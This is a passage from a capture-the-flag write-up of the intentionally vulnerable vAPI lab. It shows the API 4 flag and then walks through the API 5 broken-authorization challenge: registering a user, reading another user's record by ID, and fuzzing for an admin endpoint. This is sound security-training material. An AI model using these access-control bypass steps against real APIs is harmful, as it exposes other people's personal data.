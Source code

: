 ![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/challenges/vAPI/images/flag4.png)

We get flag4: `flag{api4_ce696239323ea5b2d015}`

---

## API 5 [Broken Function Level Authorization]
> You can register yourself as a User. Thats it or is there something more? (I heard admin logins often but uses different route)

First, we create a user account by doing a POST request:

```js
Request => "POST http://{{host}}/vapi/api5/user"
{
    "username":"user",
    "password":"pass",
    "name":"John Doe",
    "address":"ABC",
    "mobileno":"9999999999"
}
Response =>
{
    "username": "user",
    "name": "John Doe",
    "address": "ABC",
    "mobileno": "9999999999",
    "id": 7
}
```
To retrieve the user's account details, we do the following request:

```js
Request => "GET http://{{host}}/vapi/api5/user/2"
Response =>
{
    "id": 2,
    "username": "user",
    "name": "John Doe",
    "address": "ABC",
    "mobileno": "9999999999"
}
```

It was mentioned above in the description that admins often use different routes. We can fuzz for possible endpoints:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/challenges/vAPI/images/5-fuzz-endpoints.png)

The endpoint `/vapi/api5/users` looks promising. Let's send the request on our Postman client with the proper authorization headers.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/challenges/vAPI/images/flag5.png)

